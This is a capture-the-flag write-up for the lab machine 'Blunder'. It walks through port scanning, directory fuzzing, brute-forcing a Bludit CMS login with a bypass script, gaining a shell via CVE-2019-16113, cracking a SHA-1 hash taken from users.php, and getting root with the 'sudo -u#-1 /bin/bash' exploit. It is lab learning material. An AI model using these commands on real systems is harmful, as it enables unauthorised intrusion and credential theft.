 ## Blunder  

### Lab Details 

- Difficulty: Easy
- Type: Web app, Web Enum, Blundit CMS, Brute Forcing, Sudo, Priv Esc, Linux

#### Tasks

Q1: How many TCP ports are open on the remote host?
 - `nmap -sT -T4 -vv -A -p- -oA Blunder 10.10.10.191`

Q2: What is the name of the unusual file that dirbusting reveals?
 - scanned for target using /usr/share/wordlists/dirb/big.txt, unable to find any interesting files
 - used below extensions
 ``` 
   ffuf -u http://10.10.10.191/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .ext1 .ext2 .ext3
   .php 
   .pdf 
   .txt 
   .config 
   .js 
   .md 
   .html
   .xml
   .cgi
   .ini
   .log
   .dat
   .cfg
   .yml 
``` 
 - scanned again - using /usr/sharewordlists/dirb/common.txt 
``` 
 [Status: 200, Size: 118, Words: 20, Lines: 5, Duration: 309ms]
    * FUZZ: todo.txt
```
 - `curl http://target_ip/todo.txt`
 ```
 -Update the CMS
 -Turn off FTP - DONE
 -Remove old users - DONE
 -Inform fergus that the new blog needs images - PENDING
 ```

Q3: What is the version of Bludit CMS that is used?
 - the version can be found using curl 
 - `curl http://target_ip/`
 ```
         <!-- Javascript -->
        <script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=**3.9.2**"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=**3.9.2**"></script>

        <!-- Load Plugins: Site Body End -->

</body>
</html>
 ```

Q4: What is the password for the user "fergus" on Bludit CMS?
- admin panel is located at http://target_ip/admin
- tool like hydra, medusa or burpsuite can be used to conduct login bruteforce
- below is example using medusa
```
medusa -h 10.10.10.191 -u fergus -P /usr/share/wordlists/rockyou.txt  -M http -t 2   
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 0 complete) Password: 12345 (1 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 12345 [SUCCESS]
ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 1 complete) Password: 123456 (2 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 123456 [SUCCESS]
```
- however when attempting login with found password, getting username or password error
- attempted with hydra getting the same error
- tried different wordlist, found both tools are giving false positives
- searched Bludit 3.9.2 github and found https://github.com/noraj/Bludit-auth-BF-bypass
    - used cewl to create a custom wordlist by scrapping target site
    - `cewl http://10.10.10.191 -m 5 -w custom_wordlist.txt` 
    - run the auth BF bypass script 
    - `ruby exploit.rb -r http://10.10.10.191/admin -u fergus -w custom_wordlist.txt`
    ```
    ...
    [+] Password found: RolandDeschain
    ```
Q5: What is the 2019 CVE ID for a remote code execution vulnerability in Bludit 3.9.2?
- search for Bludit 3.9.2 RCE POC
- CVE-2019-16113

Q6: What is the password of the user Hugo?
- after running the exploit from above, a shell can be gained with user www-data
- run linpea.sh, found a user.php file at a different version of blundit 
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files 
...
/var/www/bludit-3.10.0a/bl-content/databases/users.php
...
```
- which contains hash of hugo
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}

````
- check hashtype `hashid "faca404fd5c0a31cf1897b823c695c85cffeb98d"`
```
Analyzing 'faca404fd5c0a31cf1897b823c695c85cffeb98d'
[+] SHA-1
... 
```
- use https://www.dcode.fr/sha1-hash to decrypt the hash 
- `password: Password120`

Q7: Submit the flag located in the hugo user's home directory.
- since the default shell from CVE-2019-16113 is not interactive, the shell needs to be upgrade to run `su`
- python is installed the target can use to upgrade 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- su hugo -> cat /home/hugo/user.txt


Q8: What 2019 CVE ID is related to the currently installed Sudo version?
- according to the result from linpeas.sh 
- current sudo version is 1.8.25p1
```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                               
Sudo version 1.8.25p1   
```
- which according to https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
- we can use below to exploit and gain root shell
```
sudo -u#-1 /bin/bash
```
- `cat /root/root.txt`


#### Lesson Learned
 - If one wordlist doesnt work try a couple different ones, like as file extensions 
